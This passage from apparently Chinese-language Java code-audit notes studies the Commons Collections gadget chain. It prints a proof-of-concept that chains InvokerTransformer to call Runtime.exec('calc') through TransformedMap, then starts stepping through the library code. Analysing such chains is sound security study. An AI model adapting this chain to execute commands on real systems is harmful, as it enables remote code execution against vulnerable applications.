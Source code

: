     ```java
    package test;
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.TransformedMap;
    
    import java.util.HashMap;
    import java.util.Map;
    
    // 代码来自p神的知识星球
    public class Collections {
        public static void main(String[] args) throws Exception {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.getRuntime()),
                    new InvokerTransformer("exec", new Class[]{String.class},
                            new Object[]{"calc"}),
            };
    
            Transformer transformerChain = new
                    ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map outerMap = TransformedMap.decorate(innerMap, null,
                    transformerChain);
            outerMap.put("test", "xxxx");
        }
    }
    ```
  - 代码调试：

    - 跟进ChainedTransformer函数：

      - ![image-20211227215534520](java代码审计.assets/image-20211227215534520.png)

        ```java
        public ChainedTransformer(Transformer[] transformers) {
        	this.iTransformers = transformers;
        }
        ```
      - 发现只是是给Transformer对象的iTransformers属性赋值，把transfomers数组复制过去。
    - 跟进TransformedMap.decorate函数
